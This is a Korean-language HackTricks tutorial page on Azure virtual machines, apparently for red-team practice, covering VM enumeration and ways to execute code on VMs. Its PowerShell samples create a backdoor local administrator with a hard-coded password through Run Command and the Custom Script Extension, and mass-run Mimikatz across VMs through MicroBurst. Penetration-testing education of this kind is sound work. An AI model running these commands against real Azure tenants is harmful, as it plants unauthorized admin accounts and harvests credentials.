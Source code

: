 # Az - 가상 머신 및 네트워크

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

## 기본 정보

[문서에서:] (https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 가상 머신은 Azure가 제공하는 여러 유형의 [온디맨드, 확장 가능한 컴퓨팅 리소스](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 중 하나입니다. 일반적으로, 다른 선택지보다 컴퓨팅 환경에 대한 더 많은 제어가 필요할 때 가상 머신을 선택합니다. 이 문서는 가상 머신을 생성하기 전에 고려해야 할 사항, 생성 방법 및 관리 방법에 대한 정보를 제공합니다.

## Azure 네트워크 정보

Azure 네트워크는 **다양한 엔티티와 구성 방법을 포함합니다.** 다양한 Azure 네트워크 엔티티에 대한 간략한 **설명,** **예제** 및 **열거** 명령을 찾을 수 있습니다:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**은 Azure 포털을 통해 SSL을 통해 안전하고 완전 관리되는 RDP(원격 데스크톱 프로토콜) 및 SSH(보안 셸) 액세스 솔루션을 제공합니다. Azure 가상 네트워크 내에 통합되어 있어 RDP 및 SSH 연결을 사용하여 VM에 개인 IP로 연결할 수 있으며, 공용 IP의 필요성을 피할 수 있습니다. 이는 VM 액세스를 위한 공용 IP 할당 및 NSG 규칙 구성을 포함하는 전통적인 방법보다 더 안전하고 편리한 대안이 됩니다. 개발자와 IT 직원은 웹 브라우저를 사용하여 Azure 포털에서 VM에 안전하게 액세스할 수 있어 개발 및 테스트 환경을 위한 프로세스를 간소화합니다.

구독 내 모든 Azure Bastion 호스트를 나열하려면 다음 명령을 사용할 수 있습니다:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 열거
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM에서 명령 실행하기**

### **VM에서 AAD 로그인**

AzureAD를 통해 인증된 사용자에게 접근을 허용하는 것이 가능합니다. 예를 들어 **linux VM**에 접근하려고 할 때: `ssh username@azure-corp.com@1.1.1.1` (로그인 시 사용한 azurecorp와 함께 **이메일을 사용하는 것이 중요합니다**) 다음과 같은 오류가 발생할 수 있습니다:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

그냥 **이 지침을 따르세요** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)로 가서 코드를 입력하고, 이메일과 비밀번호를 자격 증명으로 사용하면 SSH를 통해 연결할 수 있습니다(해당 사용자가 그렇게 할 수 있는 충분한 권한이 있는 경우: `Virtual Machine Administrator Login` 또는 `Virtual Machine User Login` 역할).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **사용자 지정 스크립트 확장 실행**

Azure 가상 머신(VM) 확장은 **Azure VM**에서 배포 후 구성 및 자동화 **작업**을 제공하는 **작은 애플리케이션**입니다. 예를 들어, 가상 머신에 소프트웨어 설치, 바이러스 백신 보호 또는 내부에서 스크립트를 실행할 수 있는 기능이 필요한 경우 VM 확장을 사용할 수 있습니다.

따라서 이를 작성할 수 있는 권한이 있다면 임의의 코드를 실행할 수 있습니다:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC)는 코드를 통해 호스트를 설정하는 데 사용되는 Ansible과 유사한 PowerShell 도구입니다. DSC는 Azure와 통합되어 특정 구성 파일을 업로드할 수 있습니다. 이러한 파일은 엄격한 구문을 준수해야 합니다. 특히, Azure의 DSC 확장은 제공된 그림에 표시된 대로 특정 형식 기준을 충족하는 파일에서 명령을 실행할 수 있습니다.

이러한 명령의 실행은 Az PowerShell의 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 함수에 의해 용이해집니다. 요구 사항에는 정의된 함수가 포함된 **.PS1** 파일이 필요하며, 파일은 **.zip** 파일로 압축되어야 합니다. 구문이 DSC에 대해 정확하지 않더라도 코드는 여전히 실행됩니다. 그러나 확장은 실행 상태를 "실패"로 표시하며, 실패 메시지로 인해 명령의 출력은 표시되지 않습니다.

### VM Application Definitions

VM Application Definitions는 버전이 지정된 애플리케이션을 Azure VM에 반복적으로 배포할 수 있게 해줍니다. 이 리소스는 VM 간의 애플리케이션 배포 및 업데이트를 지원합니다. 이를 설정하기 위해서는 Az PowerShell에서 **`New-AzGalleryApplication`** 및 **`New-AzGalleryApplicationVersion`**과 같은 명령을 포함한 여러 단계가 필요합니다.

이 방법을 통해 애플리케이션이나 명령을 실행하는 것은 VM에 애플리케이션이 적용될 때 자동으로 설치되는 **"VMAppExtension"**을 포함합니다. 확장은 지정된 URI에서 파일을 가져오고 애플리케이션과 동일한 이름으로 확장자 없이 저장합니다. 파일을 올바르게 실행하려면 REST API 호출의 "ManageActions" 필드를 구성하여 파일의 이름을 적절한 확장자로 변경해야 합니다. 이 방법의 설정이 완료되면 제공된 그림에 표시된 구조와 유사하게 됩니다.

그러나 이 실행 방법은 상대적으로 느리며 애플리케이션이나 명령을 실행하는 데 약 3-4분이 소요됩니다. 이 프로세스와 관련된 파일은 특정 디렉터리에 저장됩니다 (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`는 애플리케이션 복사본, `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`는 실행 상태).

두 기술 모두 Azure 환경에서 명령을 실행하고 애플리케이션을 배포하는 독특한 방법을 제공하며, 각각 고유한 요구 사항, 단계 및 고려 사항이 있습니다.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)는 Azure의 기능으로, Automation Account에서 구성된 Runbook을 지정된 HWG의 일부인 Azure Virtual Machine (VM)에서 실행할 수 있게 해줍니다. 이 실행은 VM에 설치된 확장을 통해 용이해지며, Runbook 코드를 VM에 배포합니다. 이 과정의 중요한 점은 실제 자격 증명이 실행에 영향을 미치지 않는다는 것입니다. 코드가 **SYSTEM** 또는 root로서 권한 상승된 상태로 실행되기 때문입니다.

Windows 10 VM을 사용하는 경우 중요한 세부 사항은 Runbook에 대해 PowerShell 버전을 지정해야 한다는 것입니다. PowerShell Version 5.1로 실행되도록 설정해야 하며, 7.1로 설정하면 실패하게 됩니다. 이는 PowerShell 7.1이 이러한 VM에 기본적으로 설치되어 있지 않기 때문입니다.

Azure의 이 기능은 하이브리드 환경에서 작업을 자동화하고 관리하는 강력한 방법을 제공하며, Azure VM에서 작업을 중앙 집중식으로 관리하고 실행할 수 있게 해줍니다.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

